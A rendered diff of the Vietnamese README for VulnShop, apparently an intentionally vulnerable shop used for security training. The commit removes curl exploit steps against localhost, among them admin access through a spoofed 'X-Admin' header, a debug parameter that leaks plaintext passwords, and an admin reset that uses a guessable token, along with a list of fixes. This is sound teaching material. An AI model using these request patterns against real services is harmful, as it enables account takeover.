

Before and after one commit to In0ri/VulnShop, a Markdown page: README.md, the part around one of its changes. Drawn GitHub-style; folded sections open; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -110,29 +59,3 @@ curl -X POST localhost:3000/api/orders -H "Authorization: Bearer $TOK" -H 'Conte
-**#16 Admin không cần đăng nhập:**
-```bash
-curl localhost:3000/api/admin/stats -H 'X-Admin: true'
-curl "localhost:3000/api/admin/users?debug=1"   # lộ cả plaintext password
-```
-
-**#7/#8 Reset mật khẩu admin:**
-```bash
-curl -X POST localhost:3000/api/forgot-password -d '{"email":"admin@vulnshop.lab"}' -H 'Content-Type: application/json'
-# -> token "reset-1-2026-10-21" (đoán được); rồi:
-curl -X POST localhost:3000/api/reset-password -H 'Content-Type: application/json' \
-  -d '{"token":"reset-1-2026-10-21","newPassword":"owned"}'
-```
-</details>
-
----
-
-## 🛠️ Cách fix (dùng để dạy remediation)
-- JWT: secret mạnh + từ env, whitelist `alg` (chỉ HS256/RS256), **enforce `exp`**, verify chữ ký.
-- Mỗi endpoint: kiểm tra **ownership** (`resource.userId === req.user.id`) và **role** server-side.
-- Whitelist field khi create/update (cấm `role`, `balance`, `id`).
-- Server **tự tính total** từ catalog, không tin client.
-- Login: thông báo lỗi chung chung, thêm rate-limit/lockout.
-- Reset token: random (`crypto.randomBytes`), có hạn, gửi qua email, không trả trong response.
-- Cookie `HttpOnly; Secure; SameSite=Strict`.
-
 ## Cấu trúc
 ```
 vuln-shop-lab/
````
Also changed, not shown: other parts of README.md (+0 -51 lines).
